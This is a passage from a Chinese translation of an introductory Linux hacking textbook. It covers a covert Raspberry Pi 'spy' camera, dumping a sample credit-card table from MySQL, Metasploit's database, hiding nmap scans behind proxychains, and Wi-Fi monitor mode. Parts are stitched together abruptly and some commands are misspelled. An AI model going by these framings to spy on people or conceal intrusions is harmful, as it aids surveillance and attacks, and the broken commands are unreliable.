pi >sudo raspberry-config

```

这应该启动一个类似图 12-3 所示的图形菜单。



图 12-3：树莓派配置工具

滚动到 `6 Enable Camera` 并按下 Enter。现在，滚动到此菜单底部并选择 `Finish` 然后按下 Enter，如图 12-4 所示。


图 12-4：完成配置

当配置工具询问你是否重启时（如图 12-5 所示），选择 `Yes` 并再次按下 Enter。


图 12-5：重启树莓派以启用更改

现在你的树莓派 Spy Pi 摄像头应该启用并准备就绪！

### 开始间谍

一旦你的树莓派 Spy Pi 重启并且你通过 Kali 终端通过 SSH 登录，你就可以通过拍摄静态照片开始使用它进行间谍活动了。

Raspian 操作系统有一个名为 `raspistill` 的应用程序，我们将用它为我们的小树莓派 Spy Pi 拍照。在终端输入 `raspistill` 来查看该工具的帮助屏幕及其所有选项：

```
pi@raspberrypi: raspistill

raspistill Camera App v1.3.8

Runs camera for specific time, and takes JPG capture at end if requested

usage: raspistill [options]

Image parameter commands

--snip-
```

现在让我们使用 Raspberry Spy Pi 拍摄一些远程间谍照片！`raspistill` 命令有许多你可以探索的选项，但在这里我们将简单地默认设置。要拍摄照片并保存为 JPEG，请输入以下：

```
pi@raspberry: raspistill -v -o firstpicture.jpg

raspistill Camera App v1.3.8

width 2592, Height 1944, quality 85, filename firstpicture.jpg

Time delay 5000, Raw no

--snip--
```

我们使用 `-v` 选项提供详细输出，并使用该选项告诉 `raspistill` 我们将提供一个文件名；然后提供文件名。当我们在 Raspberry Spy Pi 上进行长列表显示时，我们可以看到 `firstpicture.jpg` 文件，如下：

```
pi@raspberry: ls -l

total 2452

drwxr-xr-x 2 pi pi 4096 Mar 18 2019 Desktop

drwxr-xr-x 2 pi pi 4096 Mar 18 2019 Documents

drwxr-xr-x 2 pi pi 4096 Mar 18 2019 Downloads

-rw-r--r-- 1 pi pi 2472219 Mar 18 2019 firstpicture.jpg

drwxr-xr-x 2 pi pi 4096 Mar 18 2019 Music

drwxr-xr-x 2 pi pi 4096 Mar 18 2019 Pictures

--snip--
```

我们已经通过 SSH 在我们的远程 Raspberry Pi 上拍摄了第一张间谍照片！请继续进一步探索这件功能多用途的武器。

### 从 MySQL 中提取信息

MySQL 是数据库驱动的 Web 应用程序背后最广泛使用的数据库。在现代的 Web 2.0 技术时代，几乎每个网站都由数据库驱动，这意味着 MySQL 存储了大多数网站的数据。

数据库是黑客眼中的“金毛羊”。它们包含了关于用户的关键信息，以及信用卡号等机密信息。出于这个原因，黑客最针对的是数据库。

与 Linux 一样，MySQL 是开源的并遵循通用公共许可 `GPL`，你会在几乎每个 Linux 发行版中发现它已预装。

由于免费、开源且强大，MySQL 已经成为许多 Web 应用程序的首选数据库，包括流行的网站如 WordPress、Facebook、LinkedIn、Twitter、Kayak、Walmart.com、Wikipedia 和 YouTube。

其他流行的内容管理系统 `CMS` 如 Joomla、Drupal 和 Ruby on Rails 也使用 MySQL。你明白意思了。如果你想开发或攻击 Web 应用程序的后端数据库，你应该了解 MySQL。让我们开始吧。

### 启动 MySQL

幸运的是，Kali 已经安装了 MySQL（如果你使用的是其他发行版，可以从软件仓库或直接从 https://www.mysql.com/downloads/ 下载并安装 MySQL）。

启动启动 MySQL 服务，请在终端输入以下内容：

```
kali >service mysql start
```

接下来，你需要通过登录来验证身份。输入以下内容，并在提示输入密码时直接按回 键即可：

```
kali >mysql -u root -p

Enter password:

Welcome to MySQL monitor. Commands end with; or \g.

Your MySQL connection id is 4

Server version: 5.6.30-1 (Debian)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved
```

Oracle 是 Oracle 公司和/或其关联公司的注册商标。其他名称可能是其各自所有者的商标。

```
Type 'help;' or '\h' for help. Type '\c' to clear the current statement

mysql >
```


在 MySQL 的默认配置中，`root` 用户的密码为空。显然，这是一个重安全漏洞，你应该在第一次登录后通过添加密码来修复它。请注意，操作系统和 MySQL 的用户名和密码是分开且独立的。为了安全起见，让我们更改 MySQL `root` 密码。

### MySQL 的过去与未来

MySQL 最初由瑞典的 MySQL AB 于 1995 年开发，随后于 2008 年被 Sun Microsystems 收购，后者于 2009 年被 Oracle 收购——因此 MySQL 现在归 Oracle 所有。Oracle 是全球最大的数据库软件发行商，开源社区对 Oracle 继续保持 MySQL 开源的承诺非常担忧。因此，现在有一个名为“Maria”的 MySQL 数据库软件分支，它致力于保持该软件及其后续版本的开源。作为一名 Linux 管理员或黑客，你应该关注 Maria。

### 与 MySQL 交互

SQL 是一种用于与数据库交互的解释型编程语言。数据库通常是关系数据库，这意味着数据存储在多个相互作用的表中，每个表在列或多个列和行中具有值。

SQL 有多种实现，每种实现都有自己的命令和语法，但这里是一些常用命令：

- `select`: 用于检索数据
- `union`: 用于合并两个或多个 `select` 操作的结果
- `insert`: 用于添加新数据
- `update`: 用于修改现有数据
- `delete`: 用于删除数据

你可以为每个命令提供条件，以便更具体地说明你想执行的操作。例如，此行代码：

```
select user, password from customers where user='admin';
```

将返回这些值。

### 设置 MySQL 密码

要为 `root` 用户设置密码，我们使用以下命令：

```
mysql >update user SET password=PASSWORD('new_password') WHERE user='root';
```

这更改了 `root` 用户的密码。要验证更改，你可以使用新密码登录：

```
mysql -u root -p
```

```
| creditcardnumbers |
| performance_schema |
```
(4 rows in set (0.26 sec))

哈！我们发现了一个名为 `creditnumbers` 的待探索数据库。让我们连接它。

在 MySQL 中，与其他数据库管理系统 (DBMS) 一样，我们可以通过输入 `databasename` 来连接感兴趣的数据库。

```bash
mysql ~use creditcardnumbers;
Database changed
```

`Database changed` 响应表明我们现在连接到了 `creditcardnumbers` 数据库。

当然，不言而喻，数据库管理员不太可能配合到将数据库命名为 `creditcardnumbers` 这么易于识别的名字，因此你可能需要进行一些探索来找到感兴趣的数据库。

### 数据库表

我们现在已连接到 `creditcardnumbers` 数据库，可以进行一些探索看看它可能包含哪些信息。数据库中的数据组织成表，每个表可能包含一组不同的相关数据。我们可以通过输入以下命令来查看此数据库中有哪些表：

```bash
mysql >show tables;
+-----------------------------+
| Tables_in_creditcardnumbers |
+-----------------------------+
| cardnumbers |
+-----------------------------+
1 row in set (0.14 sec)
```

在这里，我们可以看到该数据库中只有一个表，名为 `cardnumbers`。通常情况下，数据库会有许多表，所以你可能需要进行更多窥探。在这个示例数据库中，我们很幸运能够将注意力集中在这张表上，以提取黑客的“金羊羊毛”！

现在我们已经有了想要检查的表，需要了解该表的结构。一旦我们知道了表的布局，就可以提取相关信息。

你可以使用 `describe` 语句查看表的结构，如下所示：

```bash
mysql >describe cardnumbers;
+------------------------------------------------------+
+-+
| Field Extra | | Type        | Null | Key  | Default |
+------------------------------------------------------+
+-+
| customers    | varchar(15) | YES  |        |
NULL         |             |      |        |
| address      | varchar(15) | YES  |        |
NULL         |             |      |        |
| city         | varchar(15) | YES  |        |
NULL         |             |      |        |
| state        | varchar(15) | YES  |        |
NULL         |             |      |        |
| cc           | int(12)     | NO   |        |
0            |             |      |        |
+------------------------------------------------------+
+-+
```

MySQL 响应了关于我们感兴趣的表结构的关键信息。我们可以看到每个字段的以及它所持的数据类型（通常是文本类型 `varchar` 或整数类型 `int`）。我们还可以看到它是否接受 `NULL` 值；如果存在的键（键连接表）；字段可能具有任何默认值；以及末端的任何额外信息（如注释）。

### 检查数据

要实际查看表中的数据，我们使用 `SELECT` 命令。`SELECT` 命令要求知道以下信息：

- 包含你想查看的数据表
- 该表中包含你想查看的数据列

我们按照以下格式进行布局：

```sql
SELECT columns FROM table
```

作为查看所有列数据的一种方便快捷方法，我们可以使用星号 `*` 作为通配符，而不是输入我们想要查看的每个列名。因此，要查看 `cardnumbers` 表中所有数据的导出，我们可以输入以下内容：

```bash
mysql >SELECT * FROM cardnumbers;
| customers | address | city | state | cc |
| :--- | :--- | :--- | :--- | :--- |
| Jones | 1 Wall St | NY | NY | 12345678 |
| Sawyer | 12 Piccadilly | London | UK | 234567890 |
| Doe | 25 Front St | Los Angeles | CA | 456789877 |
```

如你所示，MySQL 已将 `cardnumbers` 表中的所有信息显示在我们的屏幕上。我们找到了黑客的金羊羊毛！

### 带有 Metasploit 的 PostgreSQL

PostgreSQL（或简称 Postgres）是另一种开源关系型数据库，由于其易于扩展和处理重负载的能力，被用于非常大型面向互联网的应用程序。它于 1996 年 7 月发布，由一个名为 PostgreSQL Global Development Group 的大量开发者维护。

Kali 默认也预装了 PostgreSQL，但如果你使用的是其他 Linux 发行版，它很可能在你的存储库中，你可以通过以下命令进行安装：

```bash
kali >apt-get postgres install
```

作为一名黑客，你会发现 PostgreSQL 特别重要，因为它是最广泛使用的渗透测试和攻击框架 Metasploit 的默认数据库。Metasploit 使用 PostgreSQL 来存储其模块以及扫描和漏洞利用的结果，以便在渗透测试或攻击中方便使用。出于此，我们将在 Metasploit 的背景下使用 PostgreSQL。

对于 Linux 中几乎所有的服务，我们可以通过输入 `service application start` 来启动 PostgreSQL，如下：

```bash
kali >service postgresql start
```

在 Metasploit 运行后，让我们启动 Metasploit：

```bash
kali >msfconsole
```


注意，当 Metasploit 完成启动时，你将看到提示符。

教授如何使用 PostgreSQL 超出了本书的范围，但我们将为 Metasploit 配置数据库。

+ 4. 启动你的 MySQL 数据库服务并将 root 用户密码更改为 `backers-arise`。切换到 `mysql` 数据库。

5. 启动你的 PostgreSQL 数据库服务。按照本章描述进行设置，供 Metasploit 使用。

# 13

## 变得安全与匿名


今天，我们在互联网上执行的几乎一切操作都在被追踪。无论是谁在进行追踪——无论是 Google 跟踪我们的在线搜索、网站访问和电子邮件，还是国家安全局 `NSA` 编目录我们所有的活动——每一次在线移动都会被记录、索引，然后为了某些人的利益而进行挖掘。普通个人——特别是黑客——需要了解如何限制这种追踪，并在网络上保持相对的匿名状态，以限制这种无处不在的监视。

在本章中，我们将介绍如何使用四种方法匿名（或尽可能匿名）地浏览万维网：

- 洋葱网络 `The Onion Network`
- 代理服务器
- 虚拟专用网络
- 私密加密电子邮件

没有任何一种方法能确保你的活动完全免受窥探的目光，在足够的时间和资源面前，任何事情都可以被追踪。然而，这些方法可能会让追踪者的工作变得困难得多。

### 互联网如何出卖我们

首先，让我们从高层面上讨论一下我们在互联网上的活动被追踪的某些方式。我们不会介绍所有的追踪方法，也不会对其中任何一种方法进行过细的说明，因为那超出了本书的范围。事实上，这样的讨论本身就可以写满一整本书。

首先，你的 IP 地址会在你穿过互联网时识别你的身份。从你的机器发送的数据通常会标记有你的 IP 地址，使得你的活动易于被追踪。其次，Google 和其他电子邮件服务会“读取”你的邮件，寻找关键词以便更有效地向你投放广告。尽管还有许多更复杂、更耗费时间和资源的方法，但这些是我们在本章中试图防止的。让我们先看看 IP 地址是如何在互联网上出卖我们的的。

当你跨越互联网发送一个数据包时，它包含了数据的源 IP 和目的 IP 地址。通过这种方式，数据包知道它要去哪里以及向哪里返回响应。每个数据包都会经过多个互联网路由器跳转，直到找到目的地，然后跳回发送者。对于一般的网络浏览，每个跳跃都是数据包为到达目的地而经过的路由器。发送者和目的地之间可能有多达 20-30 次跳转，但通常任何数据包都会在少于 15 次跳转到达目的地。

当数据包穿过互联网时，任何拦截数据包的人都可以看到是谁发送了它、它去过哪里以及它去向哪里。这是网站在你到达并自动登录时识别你是谁的一种方式，也是某些追踪你在互联网上去过何处的方法。

要查看数据包在你和目的地之间可能进行的跳转，你可以使用 `traceroute` 命令，如下所示。只需输入 `traceroute` 加上目的 IP 地址或域名，命令就会向目的地发送数据包并追踪这些数据包的路径。

```
kali >traceroute google.com
traceroute to google.com (172.217.1.78), 30 hops max, 60 bytes packets
1 192.168.1.1 (192.168.1.1) 4.152 ms 3.834 ms 32.964 ms
2 10.0.0.1 (10.0.0.1) 5.797 ms 6.769 ms
3 96.128.96.45 (96.128.96.45) 27.952 ms 30.337 ms 32.964 ms
--snip:
18 legal15s44-in-f14.le100 (172.217.1.78) 94.666 ms 42.990 ms 41.564 ms
```

如你所见，`www.google.com` 跨越互联网经过 18 次跳转。你的结果可能会不同，因为你的请求来自不同的位置，而且 Google 在全球范围内有很多服务器。此外，数据包并不总是通过相同的路由跨越互联网，因此你可能会从你的地址向同一个站点发送另一个数据包，并收到不同的路由。让我们看看如何使用 Tor 网络伪装这一切。

### 洋葱路由系统

在 20 世纪 90 年，美国海军研究局 `ONR` 致力于开发一种用于间谍目的匿名浏览互联网的方法。该计划是建立一个与互联网路由器隔离的网络，该网络可以加密流量，并且只存储上一个路由器的未加密 IP 地址——这意味着路径上的所有其他路由器地址都是被加密的。这个想法是，任何监控流量的人无法确定数据的源或地。这项研究在 2002 年被称为“洋葱路由项目 `The Onion Router/Tor Project`”，现在任何人都可以它在网络上进行相对安全和匿名浏览。

### Tor 如何工作

通过 Tor 发送的数据包经过多层加密。电路中的每个节点只知道上一个跳转和下一个跳转的身份。这确保了没有节点节点同时知道流量的源和地。离开 Tor 网络的出口节点可以看到目的地，但不知道发送者。

在互联网上实现匿名的另一种策略是使用代理，代理是作为流量中间人的中间系统：用户连接到代理，流量在被转发之前会被赋予代理的 IP 地址。当流量从目的地返回时，代理会将流量发回源者。通过这种方式，流量似乎来自代理，而不是原始 IP 地址。

### 代理服务器

在互联网上实现匿名的另一种策略是使用代理，代理是作为流量中间人的中间系统：用户连接到代理，流量在被转发之前会被赋予代理的 IP 地址。当流量从目的地返回时，代理会将流量发回源者。通过这种方式，流量似乎来自代理，而不是原始 IP 地址。


## 安全忧量

美国和其他国家的情报和司法部门认为 Tor 网络是对国家安全的威胁，认为这种匿名网络让外国政府和恐怖分子能够在不被监控的情况下进行通信。因此，许多强大且雄心勃勃的研究项目正在破解其匿名性。

当然，代理服务器可能会记录你的流量，但调查人员必须获得传票或搜查令才能获取日志。为了让你的流量更难被追踪，你可以使用多个代理，这种策略被称为“代理链”，我们将在本章的稍后部分进行介绍。

Kali Linux 拥有一个名为 `proxychains` 的优秀代理工具，你可以设置它来隐藏你的流量。`proxychains` 命令的语法非常简单，如下所示：

```
kali >proxychains <你想要代理的命令> <参数>
```

你提供的参数可能包含一个 IP 地址。例如，如果你想使用 proxychains 匿名通过 nmap 扫描一个网站，可以输入以下内容：

```
kali >proxychains nmap -sT -Pn <IP 地址>
```

这将通过代理向给定的地址发送 `nmap -sS` 隐身扫描命令。该工具会自动构建代理链，因此你不需要担心这个问题。

### 在配置文件中设置代理

在本节中，我们为 `proxychains` 命令设置一个供使用的代理。与 Linux/Unix 中的几乎每个应用程序一样，proxychains 的配置是由配置文件管理的——特别是 `/etc/proxychains.conf`。使用以下命令用你选择的文本编辑器打开配置文件（如有必要，将 `leafpad` 替换为你选择的编辑器）：

```
kali >leafpad /etc/proxychains.conf
```

你应该能看到一个类似于列表 13-1 所示的文件。

```
### proxychains.conf VER 3.1
# 带有 DNS 的 HTTP, SOCKS4, SOCKS5 隧道代理器。
```

# 下方的选项标识了 ProxyList 的处理方式。

# 每次只能取消注释一个选项，

# 否则将接受最后一次的选项。

# - dynamic_chain

# 动态链 - 每个连接将通过链式代理完成

# 所有代理按照在列表中出现的顺序进行链式

# 链中必须至少有一个代理在线才能运行

# (死掉的代理将被跳过)

# 否则向应用程序返回 EINTR

# strict_chain

# 严格链 - 每个连接将通过链式代理完成

# 所有代理按照在列表中出现的顺序进行链式

# 链中所有代理都必须在线才能运行

# 否则向应用程序返回 EINTR
```

--snip--

列表 13-1：`proxychains.conf` 文件

向下滚动此文件到第 61 行，你应该能看到 ProxyList 部分，如列表 13-2 所示。

```
[ProxyList]

# 在此处添加代理...

# 此时

# 默认设置为 "tor"

socks4 127.0.0.1 9050
```


### 列表 13-2：用于添加代理的配置文件部分

我们可以通过在列表中输入我们想要使用的代理的 IP 地址和端口来添加代理。目前，我们将使用一些免费代理。你可以通过 Google 搜索“free proxies”或使用网站 `http://www.hidemy.com` 来查找免费代理，如图 13-4 所示。请注意，在现实世界的黑客活动中使用免费代理并不是一个好主意。我将在章的晚些时候详细介绍这一点。这里使用的示例仅用于教学目的。

#### 代理列表

在进入列表之前，所有代理都经过了彻底的检查。每个代理都会根据一组参数（ping、连接速度、国家、类型和匿名程度）进行检查。
支持 IPPort 格式导出，并为付费订阅提供 API。

| 国家 | 代理速度 | 代理类型 | 匿名性 |
|---|---|---|---|
| 所有国家(74) | ms | HTTP | 高 |
| | | HTTPS | 中 |
| 端口号 | | Socks 4 | 低 |
| 用逗号分隔 | | | Socks 5 | 无 |
| 显示 | API 访问 | 导出: IPPort 或 Excel | |

不知道如何使用代理？请查看你浏览器的说明：

| IP 地址 | 端口 | 国家，城市 | 速度 | 类型 | 匿名性 | 最后检查 |
|---|---|---|---|---|---|---|
| 114.134.186.12 | 22020 | 柬埔寨 金边 | 220 ms | SOCKS4 | 高 | 20 秒前 |
| 188.157.19.59 | 8888 | 俄罗斯 诺西伯斯克 | 300 ms | SOCKS5 | 高 | 30 秒前 |
| 200.63.29.100 | 1000 | 阿根廷 联邦 | 1480 ms | SOCKS4 | 高 | 20 秒前 |
| 103.22.0.178 | 1000 | 印度尼西亚 雅加达 | 1400 ms | SOCKS4 | 高 | 20 秒前 |
| 43.259.78.154 | 1080 | 孟加拉 科米 | 1260 ms | SOCKS5 | 高 | 35 秒前 |

**图 13-4:** 来自 `http://www.hidemy.com` 的免费代理

填写表单中的详情或点击 `search`；然后使用以下格式将生成的代理之一添加到你的 `proxychains.conf` 文件中：

类型 IP地址 端口

这是一个示例：

```
[ProxyList]

# 在此处添加代理...

socks4 114.134.186.12 22020

# 此时

# 默认设置为 "tor"

socks4 127.0.0.1 9050
```


请注意，在现实世界的黑客活动中使用免费代理并不是一个好主意。我将在章的晚些时候详细介绍这一点。这里使用的示例仅用于教学目的。虽然这种方法

增强了你的匿名性，但也增加了你在线活动的延迟。

现在你已经知道如何使用 `proxychains`，你可以在相对匿名的情况下进行黑客活动了。我之所以说“相对”，是因为在国家安全局（NSA）和俄罗斯联邦安全局（FSB）监控我们在线活动的情况下，没有任何绝对可以保持匿名的方法——但在 `proxychains` 的帮助下，我们可以让检测变得困难得多。

### 安全问题

关于代理安全的最后一点，请务必明智地选择你的代理：`proxychains` 的好坏取决于你所使用的代理。如果你打算保持匿名，正如前面提到的，请不要使用免费代理。黑客使用的是可以信赖的付费代理。事实上，免费代理可能正在出售你的 IP 地址和浏览历史。著名密码学家和安全专家布鲁斯·施耐德（Bruce Schneider）曾：“如果某东西是免费的，你不是客户，你是产品。”换句话说，任何免费代理都可能收集你的数据并将其出售。否则，他们为什么要免费提供代理呢？

虽然你离开代理服务器的流量 IP 地址是匿名的，但监控机构还有其他方法来识别你。例如，代理所有者将知道你的身份，如果受到具有管辖权的间谍机构或执法部门的压力，他们可能会提供你的身份以保护他们的业务。意识到代理作为匿名来源的局限性是非常重要的。

### 虚拟专用网络

使用虚拟专用网络（VPN）可以是保持你的网络流量相对匿名和安全的有效方法。VPN 用于连接到中间互联网设备（如路由器），该设备会将你的流量发送到最终目的地，并标记上路由器的 IP 地址。

使用 VPN 确实可以增强你的安全性和隐私，但它不能保证匿名。你连接的互联网设备必须记录或记录你的 IP 地址，才能将数据正确发回给你，因此任何能够访问这些记录的人都可以发现关于你的信息。

VPN 的迷之处在于它们简单且易于操作。你可以在 VPN 商处开设账户，然后每次登录计算机时无缝连接到 VPN。你可以像往常一样使用浏览器浏览，但在任何观察者看来，你的流量似乎来自互联网 VPN 设备的 IP 地址和位置，而不是你自己。此外，你与 VPN 设备之间的所有流量都是加密的，因此即使你的互联网服务提供商也看不到你的流量。

除其他外，VPN 可以有效规避政府控制的内容和信息传感器。例如，如果你的国家政府限制你访问带有特定政治信息的网站，你可能可以使用位于该国外的 VPN 来访问该内容。一些媒体公司（如 Netflix、Hulu 和 HBO）限制源自本国的 IP 地址访问其内容。使用位于这些服务允许的国家的 VPN 可以让你绕过这些访问限制。

根据 CNET 的介绍，最好且最流行的商业 VPN 服务包括：

- IPVanish
- NordVPN
- ExpressVPN
- CyberGhost
- Golden Frog VPN
- Hide My Ass (HMA)
- Private Internet Access
- PureVPN
- TorGuard
- Buffered VPN

这些 VPN 服务的大部分费用为每年 50 至 100 美元，许多服务提供 30 天的免费试用。要了解更多关于如何设置 VPN 的信息，请从列表中选择一个并访问其网站。你应该能找到非常易遵循的下载、安装和使用说明。

VPN 的优势在于你所有的流量在离开计算机时都会被加密，从而保护你免受窥探，并且当你访问网站时，你的 IP 地址会被 VPN IP 地址覆盖。与代理服务器一样，VPN 所有者拥有你的原始 IP 地址（否则他们无法将流量发回给你）。如果他们受到间谍机构或执法部门的压力，他们可能会放弃你的身份。防止这种情况的一种方法是仅使用承诺不存储或记录任何此类信息的 VPN（并希望他们是诚实的）。这样，如果有人坚持要求 VPN 服务提供商交关于我们的数据，那里就没有数据。

### 加密邮件

Gmail、Yahoo! 和 Outlook Web Mail（原 Hotmail）等免费商业电子邮件服务免费是有原因的：它们是跟踪你的兴趣投放广告的工具。正如前面提到的，如果一个服务是免费的，你是产品而不是客户。此外，即使你使用 HTTPS，电子邮件提供商的服务器也可以访问你邮件未加密的内容。

防止窃听邮件的方法是使用加密邮件。图 13-5 所示的 ProtonMail 对你的邮件进行端到端或浏览器到浏览加密。这意味着你的邮件在 ProtonMail 服务器上加密——即使 ProtonMail 管理员无法读取你的邮件。

ProtonMail 由瑞士欧洲核研究中心（CERN）超级加速器设施的一群年轻科学家创立。瑞士拥有保护秘密的悠久历史（记得你经常听到的瑞士银行账户吗？），ProtonMail 的服务器位于欧盟，欧盟在个人数据共享方面的法律比美国严格得多。ProtonMail 不对基础账户收费，但提供价格低廉的高级账户。需要注意的是，当与非 ProtonMail 用户交换邮件时，可能部分或全部邮件未被加密。完整细节请参 ProtonMail 支持知识库。


图 13-5：ProtonMail 登录

### 总结

我们不断受到商业公司和国家情报机构的监控。为了保持你的数据和网络旅行安全，我们需要实施本章讨论的至少一种措施。通过结合使用这些措施，你可以减少你在网络上的足迹。

### 练习题

1. 对你喜欢的网站运行 `tracer`。在你和网站之间出现了多少次跳数？
2. 下载并安装 Tor 浏览器。现在，像使用任何其他浏览器一样匿名浏览网页，看看是否注意到速度有任何差异。
3. 尝试使用 `proxychains` 配合 Firefox 浏览器访问你喜欢的网站。
4. 探索本章列出的供应商的一些商业 VPN 服务。选择一个并测试免费试用。
5. 打开一个免费的 ProtonMail 账户，并向 occupytheweb@protonmail.com 发送一条安全的问候。

为了帮助你更好地理解本章中我们将进行的许多查询的输出：

**AP (接入点)** 这是无线用户连接到以访问互联网的设备。

**ESSID (扩展服务集标识符)** 这与我们在第 3 章中讨论过的 SSID 相同，但它可以用于无线局域网中的多个 AP。

**BSSID (基本服务集标识符)** 这是每个 AP 的唯一标识符，与设备的 MAC 地址相同。

**SSID (服务集标识符)** 这是网络的名称。

**Channels（通道）** Wi-Fi 可以在 14 个通道中的任何一个（1–14）上运行。在美国，Wi-Fi 限制在 1–11 通道。

**Power（功率）** 你距离 Wi-Fi AP 越近，功率越大，连接越容易被破解。

**Security（安全性）** 这是从正在读取的 Wi-Fi AP 上使用的安全协议。Wi-Fi 有三种主要的安全协议。原始的*有线等效隐私*（WEP）存在严重缺陷且很容易被破解。它的替代者 *Wi-Fi 保护访问*（WPA） 安全一些。最后是 WPA2-PSK，它安全得多，并使用所有用户共享的预共享密钥（PSK），现在几乎所有的 Wi-Fi AP（企业级 Wi-Fi 除外）都在使用。

**Modes（模式）** Wi-Fi 可以三种模式模式：管理（managed）、主（master）或监控（monitor）。你将在后续章节学习这些模式的含义。

**Wireless range（无线范围）** 在美国，Wi-Fi AP 法律必须以 0.5 瓦的上限广播信号。在该功率下，它的正常范围约为 300 英尺（100 米）。高增益天线可以将此范围扩展到多达 20 英里。

**Frequency（频率）** Wi-Fi 设计用于 2.4GHz 和 5GHz 运行。现代 Wi-Fi AP 和无线网卡通常同时使用两者。

## 基础无线命令

在第 3 章中，你学习了基础 Linux 网络命令 `ifconfig`，它列出了系统上每个激活的网络接口以及一些基本统计数据，包括（最重要的是）每个接口的 IP 地址。让我们再次查看运行 `ifconfig` 的结果，这次重点关注无线连接。

```
kali >ifconfig

eth0Linkencap:EthernetHwaddr 00:0c:29:ba:02:0f

inet addr:192.168.181.131 Bcast:192.168.181.255

--snip-

lo Linkencap:Local Loopback

inet addr:127.0.0.1 Mask:255.255.0.0

--snip-
```

这里的 Wi-Fi 接口显示为 `wlan0`。在 Kali Linux 中，Wi-Fi 接口通常指定为 `wlanX`，其中 X 代表该接口的数量。换句话说，系统上的第一个无线适配器标记为 `wlan0`，第二个为 `wlan1`，以此此类推。

如果你只想查看 Wi-Fi 接口及其统计数据，Linux 有一个与 `ifconfig` 类似但专门用于无线的命令。该命令是 `iwconfig`。当你输入它时，只会显示你的无线接口及其关键数据：

```
kali >iwconfig

lo no wireless extensions
```


`wlan0` IEEE 802.11bg ESSID:off/any

Mode:Managed Access Point:Not-Associated Tx-Power=20 dBm

Retry short limit:7 RTS thr:off Fragment thr:off

Encryption key:off

Power Management:off

```
```

`eth0` no wireless extensions

```
```

在这里，我们只看到无线接口（也称为网卡）以及关于它们的关键数据，包括使用的无线标准、ESSID 是否关闭以及模式。模式有三种设置：

`managed`（管理模式），意味着已准备好加入或已加入 AP；*master*（主模式），意味着已准备好充当或已经是 AP；以及 *monitor*（监控模式），我们将在本章稍后部分讨论。我们还可以看到是否有任何客户端已关联它以及它的发射功率是多少等。通过这个示例你可以看出，`wlan0` 处于连接 Wi-Fi 网络所需的模式，但尚未连接到任何网络。一旦无线接口连接到 Wi-Fi 网络，我们就会再次查看此命令。

如果你不确定想要连接到哪个 Wi-Fi AP，可以使用 `iwlist` 命令查看你的网卡可以到达的所有无线接入点。`iwlist` 的语法如下：

```
iwlist interface action
```

你可以通过 `iwlist` 执行多个操作。出于我们的目的，我们将使用 `scan` 操作来查看所在区域所有的 Wi-Fi AP。（注意，使用标准天线时，范围为 300–500 英尺，但可以使用廉价的高增益天线扩展。）

```
kali >iwlist wlan0 scan

wlan0 Scan completed:

Cell 01 - Address:88:AD:43:75:B3:82

Channel:1

Frequency:2.412GHz (Channel 1)

Quality=70/70 Signal level =-38 dBm

Encryption key:off

ESSID:"Hackers-Arise"
```

`iwlist` 的输出应该包含使用的无线标准、ESSID 是否关闭以及模式。模式有三种设置：`managed`，意味着已准备好加入或已加入 AP；*master*，意味着已准备好充当或已经是 AP；以及 *monitor*，我们将在本章稍后讨论。我们还可以看到是否有任何客户端已关联它以及它的发射功率是多少等。通过这个示例你可以看出，`wlan0` 处于连接 Wi-Fi 网络所需的模式，但尚未连接到任何网络。一旦无线接口连接到 Wi-Fi 网络，我们就会再次查看此命令。

我们可以使用 `aircrack-ng` 套件中的工具获取所有信息以及更多内容。我之前已经提到过这套 Wi-Fi 破解工具，现在是时候实际使用它了。这套工具包含在 Kali 的每一个版本中，因此你不需要下载或安装任何内容。

为了有效使用这些工具，你首先需要将你的无线网卡设置为监听模式（`monitor mode`），以便网卡能够看到经过它的所有流量。通常情况下，网卡只捕获发送给自身的流量。监听模式类似于有线网卡的混杂模式（`promiscuous mode`）。

要将无线网卡设置为监听模式，请使用 `aircrack-ng` 套件中的 `airmon-ng` 命令。该命令的语法非常简单：

```
airmon-ng start/stop/restart interface
```

因此，如果你想将你的无线网卡（指定为 `wlan0`）设置为监听模式，你应该输入内容：

```
kali >airmon-ng start wlan0
```

发现了三个可能导致问题的进程。如果 `aird rop-ng`、`airplay-ng` 或 `airtun-ng` 在短段时间后停止工作，你可能需要运行 '`airmon-ng check kill`' --snip-

| PHY | INTERFACE | DRIVER | Chipset |
| :--- | :--- | :--- | :--- |
| RTL8187 | wlan0 | rt18187 | Realtek Semiconductor Corp |

(mac8311 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0)

--snip--

`stop` 和 `restart` 命令分别用于停止和重启监听模式，以在你遇到问题时。

当无线网卡处于监听模式时，你可以访问无线网络适配器和天线范围内经过你的所有无线流量（标准范围约为 300–500 英尺）。请注意 `airmon-ng` 会重命名你的无线接口：我的被重命名为“`wlan0mon`”，但你的可能不同。请务必记住你无线网卡的新名称，因为你将在下一步中需要该信息。

现在，我们将使用 `aircrack-ng` 套件中的另一个工具从无线流量中找到关键数据。`airdump-ng` 命令捕获并显示来自广播 AP 以及任何连接到这些 AP 或位于其附近的客户端的关键数据。这里的语法非常直接：只需输入 `airdump-ng`，后跟你刚才运行 `airmon-ng` 获取的接口名称。当你执行此命令时，你的无线网卡将从附近 AP 的所有无线流量中获取关键信息（如下所示）：

- BSSID AP 或客户端的 MAC 地址
- PWR 信号强度
- ENC 用于保护传输的加密方式
- #Data 数据吞吐率
- CH AP 运行通道
- ESSID AP 的名称

```
kali >airodump-ng wlan0mon

